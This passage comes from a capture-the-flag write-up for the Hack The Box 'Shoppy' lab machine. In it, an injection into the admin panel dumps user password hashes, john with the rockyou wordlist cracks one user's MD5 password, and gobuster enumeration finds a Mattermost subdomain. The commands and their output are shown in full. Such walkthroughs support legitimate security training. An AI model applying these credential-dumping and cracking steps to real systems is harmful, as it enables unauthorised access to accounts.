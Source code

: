 If I make the same injection of the admin panel we found this

![/assets/images/htb-writeup-shoppy/xd.png](/assets/images/htb-writeup-shoppy/xd.png)

If you click in the button you have hashes of users

![/assets/images/htb-writeup-shoppy/hash.png](/assets/images/htb-writeup-shoppy/hash.png)


```bash
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

I going to use john to crack the hashes

```bash
❯ /usr/bin/cat hashes
admin:23c6877d9e2b564ef8b32c3a23de27b2
josh:6ebcea65320589ca4f2f1ce039975995
```

We have credentials

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)
1g 0:00:00:02 DONE (2023-01-10 20:12) 0.3968g/s 5691Kp/s 5691Kc/s 6014KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

I found this subdomain add to the /etc/hosts too 

```bash
❯ gobuster vhost -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 80 -u shoppy.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      80
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/10 20:45:03 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb
```